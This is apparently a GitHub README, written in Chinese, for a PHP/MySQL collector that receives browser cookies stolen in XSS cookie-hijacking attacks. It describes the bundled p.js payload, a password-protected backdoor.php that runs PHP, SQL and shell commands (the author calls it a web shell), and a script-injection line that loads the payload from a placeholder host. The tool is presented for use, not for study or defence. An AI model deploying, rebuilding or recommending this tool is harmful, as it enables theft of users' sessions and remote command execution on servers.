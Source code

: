 ﻿#XSS So easy
##简介
此网站用于XSS Cookie 劫持攻击中接收Cookie  
花了半天写出来，简单美化一下，不知道外观如何  
适用于 PHP MySQL  

##使用方法
配置config.php，填写数据库用户名、密码等信息。  
install.php：创建数据库、表等操作  
write.php：GET或者POST得到的Cookie。  
需要提交的参数为domain location toplocation cookie opener。  
含有payload：p.js  

##附加功能
读、写密码  
自定义网站名称（title和页面中显示）  
自定义开发者信息（底部显示）  

##TODO
PHP提醒，mysql_connect()函数以后会被抛弃。考虑改写成新版函数。  

##Update
###2015-9-12 21:05:48
一条不当的payload，使数据库里多了几百条垃圾数据。  
于是我写了执行SQL语句的backdoor.php。（支持密码）  

###2015-9-16 10:44:21
自我感觉默认配置的颜色过于小清新。于是分离出color.css文件，可以自行配置颜色。  
出于复（xián）习（de）知（dàn）识（téng）的目的，做了个color.php，向color.css写入数据。  
后门支持PHP、SQL、shell命令执行，且支持SQL SELECT命令结果显示。SQL的INSERT UPDATE DELETE影响行数显示。（突然发现做了个WebShell）  
输出表格增加\n使HTML源文件易读。  
由于空字符串在if语句中效果同false，因此system()返回最后一行为空时应使用if($foo !== FALSE)。其他情况同理。  
改变字体为等宽字体。个别地方，中文使用微软雅黑。  
使用Eclipse排版一下。其他一些细节调整优化。  

###2015-9-16 22:25:33
CSS文件已改为PHP文件读写。  
在Windows上运行系统命令时输出字符集为GBK，增加自动转换为UTF-8。  

###2015-9-21 21:26:59
密码验证方式由GET改为POST，并增加install和testMySql页面密码功能  
分离出CSS文件，并移动到style/main.css  
增加read.php条件查询  

###2015-10-20 15:45:32
修改数据库，更改url字段名为location并允许NULL，增加toplocation（用于框架）、opener。  
从旧的数据库变更请在backdoor.php执行SQL命令：  

	alter table info change url location longtext NULL
	alter table info add toplocation longtext
	alter table info modify column cookie longtext after toplocation
	alter table info add opener longtext
	describe info  

增加p.js作为payload，修改内部write.php域名和路径即可使用。  
`<script src=http://xxx.xxx/p.js></script>`  